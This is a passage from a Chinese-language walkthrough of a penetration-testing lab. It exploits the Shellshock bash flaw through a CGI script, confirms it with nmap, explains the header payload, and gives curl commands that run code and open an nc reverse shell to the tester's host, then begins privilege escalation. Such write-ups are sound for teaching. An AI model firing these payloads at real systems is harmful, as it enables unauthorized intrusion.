 怎么会这样呢?其实不难理解,`/cgi-bin`下的脚本都是用来处理前端发来的数据的,遵循着一定的规则.而我们只是直接地访问,出现异常也是在所难免的.

那么这可怎么利用呢?

这里我们使用nmap的`http-shellshock`脚本进行验证

`nmap -p80 -sV --script http-shellshock --script-args uri=/cgi-bin/shell.sh,cmd=ls 172.20.10.3`

![截屏2022-01-25 下午4.10.42](https://tva1.sinaimg.cn/large/008i3skNly1gypzhhhw5xj31c00u0tf9.jpg)

可以发现,果真验证了漏洞!

那么要如何利用呢?此处给出两种方法

1.百度~

2.使用wireshark查看nc脚本的利用过程.

此处介绍一下第二种.

作为一名渗透测试者,随机应变非常重要.我们很可能遇到许多未知的exp,所以一定要有能力了解未知脚本的运行模式.

![截屏2022-01-25 下午4.18.16](https://tva1.sinaimg.cn/large/008i3skNly1gypzpf6k64j31c00u07f3.jpg)

首先设置`http`协议过滤器,只显示我们想要的内容.

可以看到:左边是nc发送的请求包,其中`User-Agent`等字段被设置为`() { :;}; echo; echo -n orskfpe`,

看到右边是靶机回复的数据,果真执行了相应的命令并返回了`orskfpe`

我们可以由此得出漏洞利用的结构:将请求头设置为`() { :;}; echo; command`的模式.

其原理是什么呢?当我们向`shell.sh`发送了一个http请求时,请求头中的参数会被设置为环境变量.与此同时,我们通过利用bash解析的漏洞进行"破壳",执行我们想要的命令.

在这一过程中,web应用作为"跳板"的角色,承接我们利用bash破壳漏洞的整个过程.

#### 利用破壳漏洞

我们使用`curl`构造特殊的请求包

`curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'which nc'" http://172.20.10.3/cgi-bin/shell.sh`

注意哦,一定要先执行`echo`命令哦

![截屏2022-01-25 下午4.31.59](https://tva1.sinaimg.cn/large/008i3skNly1gyq03jmmcrj31bc0683zj.jpg)

我们成功地执行了命令.接下来就是熟悉的反弹shell环节了!

反弹:`curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'nc -e /bin/bash 172.20.10.11 4444'" http://172.20.10.3/cgi-bin/shell.sh`

升级为交互式:`python3 -c "import pty;pty.spawn('/bin/bash')"`

## 提权

### 神奇小脚本

![截屏2022-01-25 下午4.34.25](https://tva1.sinaimg.cn/large/008i3skNly1gyq0649stsj314u0jyjwf.jpg)

进行简单的查看,发现sudo可以以`thor`用户的权限执行`/home/thor/./hammer.sh`脚本
